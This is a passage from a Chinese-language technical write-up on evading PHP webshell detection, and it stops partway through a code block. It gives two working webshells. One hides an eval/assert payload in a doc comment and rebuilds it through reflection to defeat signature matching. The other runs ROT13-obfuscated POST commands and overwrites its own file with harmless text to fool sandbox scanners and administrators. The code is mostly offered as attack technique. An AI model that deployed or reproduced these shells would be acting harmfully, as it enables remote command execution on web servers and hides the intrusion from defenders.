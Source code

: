```php



```

更高级一点的用法，现有的webshell检测系统会基于文本特征进行匹配，为了对抗这个防御策略，原则上来说，黑客想要做的是将原本的webshell代码进行加花、换行、大小写变形，但是在一般情况下，PHP代码如果被变形了(例如换行)就无法正常执行了。但是在反射类利用姿势这个case下，代码的变形成为了可能&#x20;

黑客在注释中可以任意插入花指令、换行等字符来绕过现有的特征检测机制

```php
<?php
    /**
    * eva
    * l($_GE
    * T["c"]);
    * asse
    * rt
    */
    class TestClass { }
    $rc = new ReflectionClass('TestClass');
    $str = $rc->getDocComment();
    die(var_dump($str));
    $evf=substr($str,strpos($str,'e'),3);
    $evf=$evf.substr($str,strpos($str,'l'),6);
    $evf=$evf.substr($str,strpos($str,'T'),8);
    $fu=substr($str,strpos($str,'as'),4);
    $fu=$fu.substr($str,strpos($str,'r'),2);
    $fu($evf);
?> 
```

### 0x28：webshell多态技术: 自毁型webshell

{% code title="毁性WebShell" %}
```php
<?php
    /*
        现在的PHP的webshell的检测基本用的是对PHP执行引擎进行hook进行动态检测
        即我们构造出一个沙箱，让目标脚本在里面执行一次，然后对执行的结果进行判断
        而我们的沙箱在触发这个脚本执行的时候由于没有给定准确的参数"code"，就会导致毁灭性覆写"fwrite ($fp, $content)"的结果
        这样，沙箱的执行结果就是一个普通的文本"helloworld"

        然后，管理员再去查看这个文件的时候，看到的就只是一个"helloworld"了

        这个是很针对"PHP的动态沙箱检测"的绕过的

        反而利用了沙箱的机制，沙箱导致了文件的毁坏
    */

    //$url = $_SERVER['PHP_SELF'];
    //$filename = end(explode('/',$url));
    //die($filename);
    if($_REQUEST["code"]==pany)
    {
        echo str_rot13('riny($_CBFG[pzq]);');
        eval(str_rot13('riny($_CBFG[pzq]);'));
    }
    else
    {
        $url = $_SERVER['PHP_SELF'];
        $filename = end(explode('/',$url));
           
        $content = 'helloworld';
        $fp = fopen ("$filename","w");
```